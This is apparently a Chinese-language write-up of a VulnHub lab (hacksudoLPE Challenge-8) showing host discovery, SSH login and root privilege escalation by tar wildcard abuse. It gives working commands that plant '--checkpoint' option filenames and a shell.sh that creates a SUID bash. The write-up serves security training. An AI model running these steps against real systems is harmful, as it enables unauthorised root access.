




下载地址：https://download.vulnhub.com/hacksudo/hacksudoLPE.zip
主机发现
使用 arp-scan 扫描局域网存活主机：
arp-scan -l端口扫描
nmap 全端口扫描：
nmap --min-rate 10000 -p- 192.168.21.147目标开放 SSH 端口，直接通过 SSH 登录靶机。
SSH 登录
使用已知凭据 SSH 连接靶机，查看当前用户：
ssh kendo@192.168.21.147查看 Challenge-8 的提权说明：
sudo -l通配符滥用
Challenge-8 考察的是通配符滥用（Wildcard Abusing）提权。当 root 用户的脚本或 cron 任务在使用 tar、chown、chmod 等命令时带通配符（如 tar *），攻击者可以创建恶意的文件名来触发任意命令执行。
首先查看系统中是否存在 cron 任务或可写目录下被 root 调用的脚本：
cat /etc/crontab
ls -la /opt/
发现一个以 root 权限定期执行的脚本，其中使用了通配符。以下是漏洞脚本的关键部分：
#!/bin/bash
cd /opt/backup
tar czf /tmp/backup.tar.gz *
tar * 会将当前目录下所有文件作为参数传入。如果目录中有文件名为 --checkpoint=1 和 --checkpoint-action=exec=shell.sh，tar 会将这些参数解释为命令行选项而非普通文件。
创建恶意 shell 脚本和触发文件：
cd /opt/backup
echo '#!/bin/bash' > shell.sh
echo 'cp /bin/bash /tmp/bash && chmod u+s /tmp/bash' >> shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch '--checkpoint-action=exec=shell.sh'
等待 cron 触发或手动执行该脚本。当 tar * 展开时，等同于：
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=shell.sh shell.sh 其他文件tar 遇到 checkpoint 选项后将执行 shell.sh，从而获得 SUID 的 bash。
执行 SUID bash 获取 root shell：
/tmp/bash -p
whoami
id
读取 flag 完成提权：
cat /root/flag.txt至此，Challenge-8 通配符滥用提权演示完毕。攻击者只需在可写目录中创建带 -- 前缀选项名的文件，即可骗过以 root 权限执行的 tar/chown 等命令，实现任意代码执行。